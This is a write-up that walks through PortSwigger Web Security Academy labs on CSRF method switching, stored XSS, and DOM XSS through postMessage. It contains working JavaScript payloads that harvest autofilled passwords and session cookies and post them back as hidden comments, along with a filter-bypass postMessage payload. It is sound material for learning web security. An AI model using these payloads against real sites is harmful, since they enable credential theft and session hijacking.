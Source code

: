 ### CSRF where token validation depends on request method
In this lab we know that the CSRF token depend on the request method, so first of all, as usual, we inspect the request made to change the email address once logged in the lab:
<br>![img](./img/38.png)<br>
We can see that the email address has changed (follow the redirect to see the final response of the server), now omitting the csrf parameter in the request we get an error:
<br>![img](./img/39.png)<br>
Try to change the request method to use GET (right click on the request body and select <b>Change request method</b>):
<br>![img](./img/40.png)<br>
It works even deleting the csrf parameter:
<br>![img](./img/41.png)<br>
So now we can create our malicious payload and to be hosted on the exploit server body (change the yellow value according to your Lab ID):
<br>![img](./img/42.png)<br>
Now click Store (1) to save the payload, then you can verify your exploit (2), then to solve the lab delivery the payload to the victim (3)

### Exploiting cross-site scripting to capture passwords
This is actually a funny and a challenging lab. Taking advantage of a XSS stored vulnerability we have to access the blog as administrator user. We know that the comment field is injectable, lets analyze the flow:
<br>![img](./img/33.png)<br>

First of all I thought to use the classic approach: stealing authentication cookie, but since the lab's cookie is HttpOnly we cannot access it through JS:
<br>![img](./img/34.png)<br>
Reading some hints we knew that if we set 2 inputs fields (username and password) in the comments of a post they will be filled automatically by the lab system before to execute our payload. Since my Burp version is Community I even cannot use Burp Collaborator, so the scenario I set it is to craft a payload that will submit a new comment containing the username and password collected whene a user (in this scenario of course this event is automated) visit the infected post. Following is the payload we will use in the comment field:
```
Username<input name=username id=username>
Password<input type=password id=password name=password onchange="pwn_usr()">
<script>
function pwn_usr() {
 var labId= '0aca008b0490873dc0c3c76000c0002a'; 
 var csrf = document.getElementsByName("csrf")[0].value;
 var secret_ = document.getElementById("username").value + ':' + document.getElementById("password").value;
 fetch('https://' + labId + '.web-security-academy.net/post/comment', {
   method: 'POST',
   body: 'csrf=' + csrf + '&postId=1&comment=This is amazing!<div style=visibility:hidden>' + secret_ + '</div>&name=zinzloun&email=zinzloun@libero.it&website='
  });
 };
</script>
```
When the password field is compiled the pwn_usr function is invoked, the function will create a new comment in the post with ID 3. Here we use the fetch JS API (https://www.w3schools.com/jsref/api_fetch.asp, remember that fetch is not supported in Internet Explorer 11 and earlier), to make the things a little bit obfuscated we will save the credentials in hidden div.
Lets create the malicious post comment:
<br>![img](./img/36.png)<br>
Just waiting a minute and then visiting the comments in the post id number 3 we can verify that our exploit worked:
<br>![img](./img/37.png)<br>
We can retrive the administrator password in the source of the page

### DOM XSS using web messages and a JavaScript URL
This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function. 
#### Lab
Inspecting the source code of the lab home page we can see that the following JS code is present
```
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```
Broadly a window object may obtain a reference to another (e.g., via targetWindow = window.opener), and then dispatch a MessageEvent on it with targetWindow.postMessage(). The receiving window is then free to handle this event as needed. The arguments passed to window.postMessage() (i.e., the "message") are exposed to the receiving window through the event object. But here the listener for dispatched message:
```
window.addEventListener('message', function(e)
```
does not implement any efficient security control, since the <b>origin</b> property is not checked and no verification of the received message syntax is implemented. Only a control on the message date is made on the presence of the http or https value, that does not prevent to inject JS command, e.g. the following message will bypass the control
```
alert(0);/*http:*/
```
In example above the http: string is inserted as a comment in JS so it is ignored, but the alert will be triggered. Knowing that we can proceed to craft our payload on the Exploit server:
<br>![img](./img/94.png)<br>

After haavig stored it (1), I tried to run (2) but I got a not found error. Reloding the exploit I can see that the message is not executed as JS:
<br>![img](./img/95.png)<br>

Let's try to add the javascript instructions before the print function as follows:
```
onload="this.contentWindow.postMessage('javascript:print();/*http:*/','*')"
```
The second argument, '*', specifies that any targetOrigin is allowed to send messages. Now store again the payload, view the exploit and the print window should appears, then deliver the exploit to the victim.

#### References
+ https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage

### Exploiting cross-site scripting to steal cookies
#### Lab
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. Not having Burp Professional I solved this lab without using the Collaborator server.

The comment field in the post comment form is vulnerable to stroed XSS:
<br>![img](./img/124.png)<br>

To solve tha without the collaborator server we can inject a payload that will submit a comment post containing her cookie value, to obfuscate a bit the exploit we will write the value inside an hidden div. Follows the source code:
```
<script>
window.onload = function () {
var id = "0a61004a0326625cc19385eb00bd0067";
var d = "csrf=" + document.forms[0].children[0].value + "&postId=2&comment=ciao<div style=visibility:hidden>" + document.cookie + "</div>&name=Mario&email=mario@me.com&website";
fetch("https://"+ id + ".web-security-academy.net/post/comment", {
method: "POST",
mode: "no-cors",
body: d
});
};
</script>
```
The script, once the post 1 page comments is loaded an async POSTrequest (using fetch) is made to submitt a comment for the post having id=2, before to submit the form we have to read the csrf token generated by server.
<br>![img](./img/121.png)<br>
Once the request is send our exploit is stored into the comments into the post having id=1, once someone visit the page a post comment (id 2) containing the user session cookie will be send inside a hidden div. Visiting the post id 2 page we can see the cookie session of antother user:
<br>![img](./img/122.png)<br>
Setting the cookie found (<i>please note that the value is different since I had to reload the lab</i>) in our session (1) we can solve the lab. You can verify that we are now administrator visiting the My account page (2)
<br>![img](./img/123.png)<br>

#### References
+ https://portswigger.net/web-security/cross-site-scripting/stored